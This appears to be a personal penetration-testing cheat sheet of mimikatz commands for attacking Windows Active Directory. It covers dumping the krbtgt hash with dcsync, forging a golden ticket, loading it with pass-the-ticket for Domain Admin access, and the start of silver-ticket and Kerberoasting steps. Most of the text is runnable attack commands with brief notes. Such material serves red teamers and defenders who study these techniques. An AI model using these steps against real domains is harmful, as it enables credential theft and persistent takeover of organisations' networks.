 # Password Hash, need to be Domain Admin to get this

# Issue below commands as DC admin in mimikatz.

mimikatz # lsadump::dcsync /osbornepro:hostFQDN.osbornepro.com /user:krbtgt

Copy the "Hash NTLM" password line hash in the "Credentials" section and that is the KRBTGT value we need.

******************************************
GRANT YOURSELF THE GOLDEN TICKET
******************************************

mimikatz # kerberos::golden /domain:osbornepro.com /sid:<sid number> /rc4:a49e8edf15676c64e31878a59d2bc319 /id:500 /user:TrustMeImAdmin

# The /id siwthc value o 500 is for admin accounts. Specify name of the user in the /user field. I believe this can be anything you want.

# Golden ticket will be saved as file ticket.kirbi

*****************************************************
USE TICKET WITH KERBEROS PASS THE TICKET COMMAND
*****************************************************
mimikatz # kerberos::ptt ticket.kirbi

# The above loads ticket into memory.

# open a cmd prompt. Whoami returns normal user but process runs as admin. This allows Domain Admin access to a domain controller. Ticket doesnt expire basically ever.

================================

|                       SILVER TICKETS                       |

================================
NOTE: See golden ticket if you have trouble getting any info

Allows attacker to create forge TGS tickets that give an attacker access to a particular service on a particular server

No special priviledges required to do this. Can be done by any user and does not require any communication with a Domain Controller.

All that is needed is a password for a service account.
1.) KERBEROAST
PS> Add-Type -AssemblyName System.IdentityModel
